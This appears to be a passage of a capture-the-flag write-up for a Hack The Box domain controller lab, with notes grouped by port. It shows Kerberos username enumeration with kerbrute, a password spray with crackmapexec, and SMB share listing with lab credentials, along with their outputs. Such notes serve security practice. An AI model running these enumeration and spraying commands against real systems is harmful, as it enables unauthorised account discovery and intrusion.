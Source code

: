 ### 53/tcp
- Microsoft DNS 6.1.7601 (1DB15CD4) (Windows Server 2008 R2 SP1)


### 88/tcp
- Microsoft Windows Kerberos

- Performing ASREPRoasting
```bash
kerbrute_linux_amd64 userenum --dc 10.10.10.52 -d htb.local /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt

2022/10/10 18:39:53 >  [+] VALID USERNAME:       james@htb.local
2022/10/10 18:39:56 >  [+] VALID USERNAME:       James@htb.local
2022/10/10 18:40:06 >  [+] VALID USERNAME:       administrator@htb.local
2022/10/10 18:40:16 >  [+] VALID USERNAME:       mantis@htb.local
2022/10/10 18:40:39 >  [+] VALID USERNAME:       JAMES@htb.local
2022/10/10 18:41:38 >  [+] VALID USERNAME:       Administrator@htb.local
2022/10/10 18:42:31 >  [+] VALID USERNAME:       Mantis@htb.local
```
- Confirmed following users
	- james
	- administrator
	- mantis
- Attempt password spray from Orchard CMS Admin credentials
```bash
crackmapexec smb 10.10.10.52 -d htb.local -u asreproast_users.txt -p '@dm!n_P@ssW0rd!'
```
- No hits

### 135/tcp
- Microsoft Windows RPC

### 139/tcp, 445/tcp
- netbios-ssn
- microsoft-ds
- Appears that I can enumerate using username '', and password '' but cannot retrieve any results

***
- Enumeration after obtaining credentials `james:J@m3s_P@ssW0rd!`
```bash
smbmap -u 'james' -p 'J@m3s_P@ssW0rd!' -H 10.10.10.52

Disk              Permissions     Comment
----              -----------     -------
ADMIN$            NO ACCESS       Remote Admin
C$                NO ACCESS       Default share
IPC$              NO ACCESS       Remote IPC
NETLOGON          READ ONLY       Logon server share 
SYSVOL            READ ONLY       Logon server share
```
